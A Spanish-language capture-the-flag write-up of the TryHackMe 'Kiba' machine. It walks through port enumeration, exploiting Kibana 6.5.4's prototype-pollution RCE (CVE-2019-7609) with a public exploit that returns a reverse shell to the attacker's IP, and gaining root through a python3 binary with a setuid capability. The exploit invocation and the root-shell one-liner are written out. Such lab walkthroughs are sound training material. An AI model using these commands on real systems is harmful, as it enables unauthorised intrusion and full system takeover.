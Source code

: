# Kiba WriteUp
Volver al [Indice](README.md)

Bueno, hoy os traigo una de las últimas, sino la última máquina creada en THM, su nombre es Kiba, en ella explotaremos una vulnerabilidad algo diferente (almenos para mí) es un software de monitorización, gráficos, etc.  
Está catalogada con un nivel de "Easy" aunque es bastante interesante esta máquina.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*
Como siempre, vamos a realizar un escaneo de los puertos, servicios y versiones para var con lo que tratamos.

![nmap](images/kiba/nmap.png)

Vemos que tiene el puerto 80 abierto con un apache pero no vemos nada relevante ahí.  
En el puerto 5601 vemos el nombre del aplicativo (Kibana), así que accedemos vía web y nos lleva directamente al dashboard de este, echamos un ojo por encima y vemos una pestaña llamada "Dev Tools" en la que podemos insertar código, vamos a buscar su versión.

En esta pestaña, colocamos  ```"GET /"```  para ver información del sistema y, como vemos, tiene la versión 6.5.4 instalada.

![versión](images/kiba/version.png)

Hacemos una búsqueda por Google y encontramos que esta versión es vulnerable a un ataque llamado "Prototype Pollution", dejo el enlace donde encontré la vulnerabilidad.  
[Kibana 6.5.4 Vulnerability](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/#:~:text=The%20vulnerability%20was%20CVE%2D2019,Kibana%20versions%20before%205.6.&text=This%20could%20possibly%20lead%20to,process%20on%20the%20host%20system.)

Realizando diferentes pruebas con el Dashboard conseguí encontrar un exploit que automatiza directamente toda la explotación de esta vulnerabilidad y te da acceso directamente al sistema, dejo el enlace de este también.  
[CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)


## *# Explotación*
La sintáxis de este es muy sencilla.  
```python exploit.py -u "urlVíctima" -host "ipAtacante" -port "puertoEscucha" --shell```
* -u => Colocamos la URL del aplicativo "Kibana".
* -host => Colocamos la IP nuestra.
* -port => Colocamos el puerto que queremos poner en escucha.
* --shell => Para que nos saque una shell, si no lo ponemos solo nos diría si es o no vulnerable.

![exploit](images/kiba/exploit.png)

Y ya estaríamos dentro, podemos buscar la flag de user en su directorio habitual.

![userFlag](images/kiba/userFlag.png)


## *# Post-Explotación*
Como la misma sala nos da una pista de por donde pueden ir los tiros para escalar privilegios vamos a listar recursivamente los "capabilities" (los capabilities es una capa de "seguridad" dentro del sistema, permite a los usuarios usar una aplicación como "root", pero solo ese proceso, no teniendo que ser root en algunos casos y no exponiendo el sistema completamente...claro está que también puede llegar a ser una vulnerabilidad bastante obvia...lo vamos a ver) del sistema a ver si sacamos algo.

![capabilities](images/kiba/getcap.png)

Dentro del directorio ".hackmeplease" (suena interesante ya de primeras, ¿no?) vemos que el binario de python3 tiene permisos de root y podemos ejecutarlo como vimos con los "capabilities", vamos a lanzarnos una shell a ver si conseguimos ROOT...  
```./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'```

![rooFlag](images/kiba/rootFlag.png)

Y una vez más..¡Somos ROOT!


